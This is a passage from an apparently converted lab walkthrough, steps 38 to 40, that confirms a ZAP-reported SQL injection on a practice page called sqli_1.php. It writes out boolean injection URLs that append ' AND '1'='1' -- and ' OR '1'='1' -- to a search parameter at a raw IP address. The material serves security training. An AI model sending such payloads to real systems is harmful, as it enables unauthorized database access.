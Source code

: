 **Step 38:** Click on the First URL. 

![](Aspose.Words.cbaf6519-e428-40a8-b313-af0820ea0196.055.jpeg)

**Step 39:** Navigate to the URL ![ref2]

**URL:** http://192.210.141.3/sqli\_1.php?action=search&title=ZAP'+AND+'1'%3D'1'+--+ 

![](Aspose.Words.cbaf6519-e428-40a8-b313-af0820ea0196.056.jpeg)

No Records will appear.  ![ref2]

**Step 40:** In the URL, change the AND condition into OR.  

**URL: [http://192.210.141.3/sqli_1.php?action=search&title=ZAP'+OR+'1'%3D'1'+--+](http://192.210.141.3/sqli_1.php?action=search&title=ZAP%27+OR+%271%27%3D%271%27+--+)** The Payload to use is also mentioned on the Vulnerablity information window (step 38). 


[ref1]: Aspose.Words.cbaf6519-e428-40a8-b313-af0820ea0196.002.png
[ref2]: Aspose.Words.cbaf6519-e428-40a8-b313-af0820ea0196.004.png
[ref3]: Aspose.Words.cbaf6519-e428-40a8-b313-af0820ea0196.028.png